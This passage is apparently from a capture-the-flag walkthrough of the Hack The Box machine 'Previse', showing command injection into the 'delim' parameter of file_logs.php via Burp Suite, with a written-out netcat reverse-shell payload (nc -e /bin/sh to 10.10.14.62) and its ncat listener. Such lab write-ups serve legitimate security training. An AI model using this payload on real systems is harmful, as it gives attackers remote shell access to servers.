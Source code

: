 ![Comment about python](/assets/htb/previse/comment_python.png)

Looking at the `file_logs.php` page in `Burp Suite` the request is a `POST` with a parameter called `delim=comma`.

# Shell as www-data

Using `Burp Suite` and a payload in the parameter `delim=comma`.

Payload:
`delim=comma nc-e /bin/sh 10.10.14.62 1886`.
URL encode the payload to:
`delim=comma%26nc+-e+/bin/sh+10.10.14.62+1886`

Setting up a `ncat` listener:
`ncat -lvnp 1886`

![Shell as www-data](/assets/htb/previse/shell_wwwdata.png)
